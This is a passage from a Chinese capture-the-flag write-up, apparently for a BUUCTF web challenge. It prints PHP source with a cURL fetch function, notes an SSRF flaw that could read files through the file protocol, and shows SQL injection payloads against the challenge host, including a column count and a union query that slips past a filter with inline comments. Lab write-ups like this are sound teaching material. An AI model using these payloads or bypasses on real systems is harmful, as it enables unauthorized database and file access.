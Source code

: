 ```php
    function get($url)
    {
        $ch = curl_init();    // curl_init(url)函数，初始化一个新的会话，返回一个cURL句柄

        curl_setopt($ch, CURLOPT_URL, $url);   // curl_setopt设置 cURL 传输选项，为 cURL 会话句柄设置选项
        curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
        $output = curl_exec($ch);    // curl_exec — 执行 cURL 会话，返回访问结果
        $httpCode = curl_getinfo($ch, CURLINFO_HTTP_CODE);     // curl_getinfo — 获取一个cURL连接资源句柄的信息，获取最后一次传输的相关信息。返回状态码。
        if($httpCode == 404) {
            return 404;
        }
        curl_close($ch);

        return $output;
    }

    public function getBlogContents ()
    {
        return $this->get($this->blog);
    }

    public function isValidBlog ()
    {
        $blog = $this->blog;
        return preg_match("/^(((http(s?))\:\/\/)?)([0-9a-zA-Z\-]+\.)+[a-zA-Z]{2,6}(\:[0-9]+)?(\/\S*)?$/i", $blog);
    }

}
```

发现ssrf漏洞。

过滤做得很少，如果没有isValidBlog函数就可以直接用file协议读取。

先注册一个账号

进入后发现注入点。

```php
http://bec1c1e2-0a6e-43a3-8e55-7243a08ec243.node4.buuoj.cn/view.php?no=1
```

进行注入：

```
view.php?no=1 order by 4--+
```

字段数为4

联合查询得到显注点，union被过滤，用/**/绕过。

```
view.php?no=0 union/**/select 1,2,3,4--+
```
